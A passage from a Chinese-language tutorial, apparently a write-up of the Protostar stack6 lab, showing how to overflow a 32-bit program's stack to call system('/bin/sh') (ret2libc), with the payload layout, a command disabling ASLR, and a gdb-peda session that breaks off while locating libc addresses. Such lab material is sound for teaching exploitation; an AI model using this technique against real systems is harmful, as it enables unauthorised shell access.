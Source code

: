 根据函数调用栈，要想调用`system('/bin/sh')`，对于32位程序，需要把参数`/bin/sh`的地址压栈，我们需要输入以下的数据。
```
                   ------------------system('/bin/sh')
                  |                            |   
                  |                            |   
["aaaa"....][system_address]["bbbb"]['/bin/sh'.address]
```
这样就可以得到shell了，在此之前，需要先找到`system()`的地址和`/bin/sh`的地址。"bbbb"是调用`system("/bin/sh")`后的函数返回地址，但是在这之前我们就已经完成了目标，所以就可以随便填写了。
跟上一次实验一样，为了地址不产生变动，需要先关闭alsr保护。
```
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```
使用gdb来查看`system()`的和`"/bin/sh"`的地址，注意，查看`system()`地址需要先在main函数下断点，执行后才能查找到，因为`system()`是动态共享库libc中的函数，需要在程序加载了libc之后才能查到具体地址。
```
$ gdb stack6
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from stack6...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x8048558
gdb-peda$ r
Starting program: /home/lometsj/prostar/stack6 

[----------------------------------registers-----------------------------------]
EAX: 0xf7fb7dbc --> 0xffffcfec --> 0xffffd1fb ("LC_PAPER=en_US.UTF-8")
EBX: 0x0 
ECX: 0xffffcf50 --> 0x1 
EDX: 0xffffcf74 --> 0x0 
ESI: 0xf7fb6000 --> 0x1afdb0 
EDI: 0xf7fb6000 --> 0x1afdb0 
EBP: 0xffffcf38 --> 0x0 
ESP: 0xffffcf34 --> 0xffffcf50 --> 0x1 
EIP: 0x8048558 (<main+14>:	sub    esp,0x4)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048554 <main+10>:	push   ebp
   0x8048555 <main+11>:	mov    ebp,esp
   0x8048557 <main+13>:	push   ecx
=> 0x8048558 <main+14>:	sub    esp,0x4
   0x804855b <main+17>:	call   0x80484cb <getpath>
   0x8048560 <main+22>:	mov    eax,0x0
   0x8048565 <main+27>:	add    esp,0x4
   0x8048568 <main+30>:	pop    ecx
[------------------------------------stack-------------------------------------]
0000| 0xffffcf34 --> 0xffffcf50 --> 0x1 
0004| 0xffffcf38 --> 0x0 
0008| 0xffffcf3c --> 0xf7e1e637 (<__libc_start_main+247>:	add    esp,0x10)
0012| 0xffffcf40 --> 0xf7fb6000 --> 0x1afdb0 
0016| 0xffffcf44 --> 0xf7fb6000 --> 0x1afdb0 
0020| 0xffffcf48 --> 0x0 
0024| 0xffffcf4c --> 0xf7e1e637 (<__libc_start_main+247>:	add    esp,0x10)
```